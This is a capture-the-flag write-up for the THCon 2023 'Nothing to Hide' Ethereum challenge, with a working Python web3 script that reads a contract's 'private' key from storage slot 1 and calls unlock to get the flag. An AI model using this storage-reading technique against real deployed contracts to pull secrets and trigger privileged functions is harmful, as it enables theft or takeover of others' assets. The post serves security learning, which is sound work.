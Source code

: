 ```yaml
---
layout: post
title: "Nothing to Hide (THCon CTF 2023)"
author: cryptax
tags:
- THCon
- CTF
- 2023
- Web3
- Ethereum
---
```


# Description

![](/images/thcon23-nothingtohide-description.png)

The challenge provides the following contract, and, same as the [Welcome challenge](https://cryptax.github.io/2023/04/22/welcome.html), the goal is to "unlock" to get the flag.


```
pragma solidity ^0.7.1;

contract hidden {

    bool public isLocked;
    
    bytes32 private key;
    
    bool private other;

    uint256 private garbage = 88888888888;

    uint256 public useless;

    uint256 private bob;


    constructor() {
        //hidden
    }

    function unlock(bytes32 _something) public {
        require(other);
        if (key == _something) {
            isLocked = false;
        }
    }

}
```


# Solving the challenge

Like in the previous challenge, to unlock, we need a **key**, except this time it is *private*:

```
bytes32 private key;
...
function unlock(bytes32 _something) public {
        require(other);
        if (key == _something) {
            isLocked = false;
        }
    }
```

So, we're going to read the key (exactly the way I had intended to do it initially with Welcome) using [`get_storage_at`](https://web3py.readthedocs.io/en/stable/web3.eth.html#web3.eth.Eth.get_storage_at). The storage probably holds the key at index 1:

```
bool public isLocked; # index 0
bytes32 private key;  # index 1
bool private other;   # index 2
...
```


The first step is to get the ABI of the contract, using solc. That's a step I grasped from [Sylvain Pelissier at Insomni'hack CTF](https://sylvainpelissier.gitlab.io/posts/2023-03-24-insomnihack-ownercheap/):

```
solc nothingtohide.sol --abi > abi.json
```

For the command to work, in my case, I had to fix the solidity pragma to `pragma solidity ^0.8.19;`. Then I copy-pasted the Json array in my Python script.

Then, you deploy the contract on the CTF infrastructure and retrieve the contact's address.

My script is very inspired from Sylvain's:

1. Connect to the RPC URL
2. Get the contract, using its address
3. Read the key from storage
4. Send the transaction

To send the transaction, you need your private key. You can retrieve it from the Metamask wallet you created for the CTF:

![](/images/thcon23-web3-account.png)
![](/images/thcon23-web3-accountdetails.png)

```python
#!/usr/bin/env python3

from web3 import Web3

# solc nothingtohide.sol --abi > abi.json - then copy paste content of abi.json here
abi = [{"inputs":[],"stateMutability":"nonpayable","type":"constructor"},{"inputs":[],"name":"isLocked","outputs":[{"internalType":"bool","name":"","type":"bool"}],"stateMutability":"view","type":"function"},{"inputs":[{"internalType":"bytes32","name":"_something","type":"bytes32"}],"name":"unlock","outputs":[],"stateMutability":"nonpayable","type":"function"},{"inputs":[],"name":"useless","outputs":[{"internalType":"uint256","name":"","type":"uint256"}],"stateMutability":"view","type":"function"}]

# connect to the CTF RPC URL
url = 'https://node01-eth.ctf.thcon.party:8545'
web3 = Web3(Web3.HTTPProvider(url))

# I am logged in the CTF interface with this personal address
my_address = web3.to_checksum_address('0xc8fe...')

# The contract is deployed at this address
contract_address = web3.to_checksum_address('0xb9eE2C6DBa64e2dc3FE7e78aEE8e34FBb33FcAA3')
contract = web3.eth.contract(address=contract_address, abi=abi)

# Read the key from the contract
key_bytes = web3.eth.get_storage_at(contract_address,1)
print(f"key bytes: {key_bytes} {len(key_bytes)}")
# b' \xfa\xbb\xc0f0e\xde\x90\x9de\xa3\x02D\xd2\xb4\x1eE\x10\xa3`\xe7\xd5\xb0xA\xbb\x90\x8a\xd5z\x9f'

# create transaction
print('Creating transaction...')
transfer_tx = contract.functions.unlock(key_bytes).build_transaction(
    {
        'from': my_address,
        'nonce': web3.eth.get_transaction_count(my_address),
        'gasPrice': web3.eth.gas_price
    })


# signing the transaction with my personal wallet's private key (in Metamask)
print("Signing transaction...")
x_create = web3.eth.account.sign_transaction(transfer_tx, 0x863ce...)
# sending the transaction - for that I need a few tokens at least that I can mine on the CTF interface
print('Send raw...')
tx_hash = web3.eth.send_raw_transaction(x_create.rawTransaction)
print('Receipt')
tx_receipt = web3.eth.wait_for_transaction_receipt(tx_hash)
print(f'Tx successful with hash: { tx_receipt.transactionHash.hex() }')
```

This unlocks the contract, and thus, when you go back to the CTF interface, you get the flag :)

![](/images/thcon23-nothingtohide-solved.png)

# My feedback

Actually, I flagged this challenge more easily / quickly than Welcome, because I had some prior (small) experience with Web3 python scripts.
Nevertheless, I liked it very much: I find the scenario's design excellent, the CTF crypto interface excellent. Thanks!
